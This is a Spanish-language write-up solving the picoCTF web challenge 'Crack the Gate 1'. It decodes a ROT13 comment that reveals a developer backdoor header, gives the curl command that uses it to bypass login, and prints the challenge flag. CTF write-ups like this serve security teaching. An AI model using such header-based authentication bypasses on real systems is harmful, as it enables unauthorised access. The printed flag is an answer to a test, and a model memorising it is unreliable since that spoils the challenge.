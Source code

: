 ### **RETO:** Crack the Gate 1

**DESCRIPCIÓN:**  
We’re in the middle of an investigation. One of our persons of interest, ctf player, is believed to be hiding sensitive data inside a restricted web portal. We’ve uncovered the email address he uses to log in: [ctf-player@picoctf.org](https://mailto:ctf-player@picoctf.org/). Unfortunately, we don’t know the password, and the usual guessing techniques haven’t worked. But something feels off... it’s almost like the developer left a secret way in. Can you figure it out?

**SOLUCIÓN:**

1. **Análisis inicial**:
    
    - Sitio web de login en: [http://amiable-citadel.picoctf.net:59876](http://amiable-citadel.picoctf.net:59876/)
        
    - Credenciales conocidas: [ctf-player@picoctf.org](https://mailto:ctf-player@picoctf.org/)
        
    - Contraseña desconocida
        
2. **Proceso de resolución**:
    
    - Se examinó el código fuente de la página de login
        
    - Se encontró un comentario codificado en ROT13: `<!-- ABGR: Wnpx - grzcbenel olcnff: hfr urnqre "K-Qri-Npprff: lrf" -->`
        
    - Se decodificó el ROT13 revelando: `Jack - temporary bypass: use header "X-Dev-Access: yes"`
        
    - Se utilizó el header especial en la petición POST al endpoint /login
        
3. **Descubrimiento clave**:
    
    - El comentario en el código fuente contenía un bypass de autenticación
        
    - El header `X-Dev-Access: yes` permitía omitir la verificación de credenciales
        
    - La flag se obtenía directamente al usar este header
        

**FLAG OBTENIDA:**  
`picoCTF{brut4_f0rc4_3c6b118b}`

**REFERENCIAS:**

- URL: [http://amiable-citadel.picoctf.net:59876](http://amiable-citadel.picoctf.net:59876/)
    
- Técnica: Bypass de autenticación via headers HTTP
    
- Herramienta: `curl`
    
- Comando: `curl -X POST http://amiable-citadel.picoctf.net:59876/login -H "Content-Type: application/json" -H "X-Dev-Access: yes" -d '{"email":"ctf-player@picoctf.org","password":"anypassword"}'`
    
- Técnica: Decodificación ROT13
